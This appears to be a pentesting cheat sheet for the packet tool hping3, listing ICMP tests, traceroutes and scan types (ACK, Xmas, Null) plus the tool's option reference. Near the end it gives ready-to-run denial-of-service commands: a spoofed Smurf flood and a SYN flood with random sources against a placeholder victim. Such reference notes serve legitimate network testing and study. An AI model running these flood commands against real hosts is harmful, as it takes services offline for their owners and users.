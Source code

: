 # Test with Hping3

- [ ] Testing ICMP:

`hping3 -1 test.com`

- [ ]  Traceroute using ICMP: 

`hping3 --traceroute -V -1 test.com`

- [ ]  Checking port: 

`hping3 -V -S -p 80 -s 5050 test.com`

- [ ]  Traceroute to a determined port: 

`hping3 --traceroute -V -S -p 80 -s 5050 test.com`

- [ ]  Other types of ICMP: 

`hping3 -c 1 -V -1 -C 17 test.com`

- [ ]  Other types of Port Scanning: 

`hping3 -c 1 -V -p 80 -s 5050 -F test.com`

- [ ]  Ack Scan: 

`hping3 -c 1 -V -p 80 -s 5050 -A test.com`

- [ ]  Xmas Scan: 

`hping3 -c 1 -V -p 80 -s 5050 -M 0 -UPF test.com`

- [ ]  Null Scan: 

`hping3 -c 1 -V -p 80 -s 5050 -Y test.com`

- [ ]  Smurf Attack: 

`hping3 -1 --flood -a VICTIM_IP BROADCAST_ADDRESS`

- [ ]  DOS Land Attack:

`hping3 -V -c 1000000 -d 120 -S -w 64 -p 445 -s 445 --flood --rand-source VICTIM_IP`
`--flood: sent packets as fast as possible. Don't show replies.`
`--rand-dest: random destionation address mode. see the man.`
`-V <-- Verbose`
`-c --count: packet count`
`-d --data: data size`
`-S --syn: set SYN flag`
`-w --win: winsize (default 64)`
`-p --destport [+][+]<port> destination port(default 0) ctrl+z inc/dec`
`-s --baseport: base source port (default random)`

# Hping3 how to use:

### usage: hping3 host [options]
- [ ]  `-h` --help show this help
- [ ]  `-v` --version show version
- [ ]  `-c` --count packet count
- [ ]  `-i` --interval wait (uX for X microseconds, for example -i u1000)
- [ ]  `--fast` alias for -i u10000 (10 packets for second)
- [ ]  `--faster` alias for -i u1000 (100 packets for second)
- [ ]  `--flood` sent packets as fast as possible. Don't show replies.
- [ ]  `-n` --numeric numeric output
- [ ]  `-q` --quiet quiet
- [ ]  `-I` --interface interface name (otherwise default routing interface)
- [ ]  `-V` --verbose verbose mode
- [ ]  `-D` --debug debugging info
- [ ]  `-z` --bind bind ctrl+z to ttl (default to dst port)
- [ ]  `-Z` --unbind unbind ctrl+z
- [ ]  `--beep` beep for every matching packet received

### Mode (default mode TCP)
- [ ]  `-0 --rawip` RAW IP mode
- [ ]  `-1 --icmp` ICMP mode
- [ ]  `-2 --udp` UDP mode
- [ ]  `-8 --scan` SCAN mode.
- [ ]  `-9 --listen` listen mode

### IP
- [ ]  `-a --spoof` spoof source address
- [ ]  `--rand-dest` random destionation address mode. see the man.
- [ ]  `--rand-source` random source address mode. see the man.
- [ ]  `-t --ttl` ttl (default 64)
- [ ]  `-N --id` id (default random)
- [ ]  `-W --winid` use win* id byte ordering
- [ ]  `-r --rel` relativize id field (to estimate host traffic)
- [ ]  `-f --frag` split packets in more frag. (may pass weak acl)
- [ ]  `-x --morefrag` set more fragments flag
- [ ]  `-y --dontfrag` set dont fragment flag
- [ ]  `-g --fragoff` set the fragment offset
- [ ]  `-m --mtu` set virtual mtu, implies --frag if packet size > mtu
- [ ]  `-o --tos` type of service (default 0x00), try --tos help
- [ ]  `-G --rroute` includes RECORD_ROUTE option and display the route buffer
- [ ]  `--lsrr` loose source routing and record route
- [ ]  `--ssrr` strict source routing and record route
- [ ]  `-H --ipproto` set the IP protocol field, only in RAW IP mode


### ICMP
- [ ]  `-C --icmptype` icmp type (default echo request)
- [ ]  `-K --icmpcode` icmp code (default 0)
- [ ]  `--force-icmp` send all icmp types (default send only supported types)
- [ ]  `--icmp-gw` set gateway address for ICMP redirect (default 0.0.0.0)
- [ ]  `--icmp-ts` Alias for --icmp --icmptype 13 (ICMP timestamp)
- [ ]  `--icmp-addr` Alias for --icmp --icmptype 17 (ICMP address subnet mask)
- [ ]  `--icmp-help` display help for others icmp options


### UDP/TCP
- [ ]  `-s --baseport` base source port (default random)
- [ ]  `-p --destport` [+][+]<port> destination port(default 0) ctrl+z inc/dec
- [ ]  `-k --keep` keep still source port
- [ ]  `-w --win` winsize (default 64)
- [ ]  `-O --tcpoff` set fake tcp data offset (instead of tcphdrlen / 4)
- [ ]  `-Q --seqnum` shows only tcp sequence number
- [ ]  `-b --badcksum` (try to) send packets with a bad IP checksum many systems will fix the IP checksum sending the packet so you'll get bad UDP/TCP checksum instead.
- [ ]  `-M --setseq` set TCP sequence number
- [ ]  `-L --setack` set TCP ack
- [ ]  `-F --fin` set FIN flag
- [ ]  `-S --syn` set SYN flag
- [ ]  `-R --rst` set RST flag
- [ ]  `-P --push` set PUSH flag
- [ ]  `-A --ack` set ACK flag
- [ ]  `-U --urg` set URG flag
- [ ]  `-X --xmas` set X unused flag (0x40)
- [ ]  `-Y --ymas` set Y unused flag (0x80)
- [ ]  `--tcpexitcode` use last tcp->th_flags as exit code
- [ ]  `--tcp-timestamp` enable the TCP timestamp option to guess the HZ/uptime


### Common
- [ ]  `-d --data` data size (default is 0)
- [ ]  `-E --file` data from file
- [ ]  `-e --sign` add 'signature'
- [ ]  `-j --dump` dump packets in hex
- [ ]  `-J --print` dump printable characters
- [ ]  `-B --safe` enable 'safe' protocol
- [ ]  `-u --end` tell you when --file reached EOF and prevent rewind
- [ ]  `-T --traceroute` traceroute mode (implies --bind and --ttl 1)
- [ ]  `--tr-stop` Exit when receive the first not ICMP in traceroute mode
- [ ]  `--tr-keep-ttl` Keep the source TTL fixed, useful to monitor just one hop
- [ ]  `--tr-no-rtt` Don't calculate/show RTT information in traceroute mode


### ARS packet description
- [ ]  `--apd-send` Send the packet described with APD
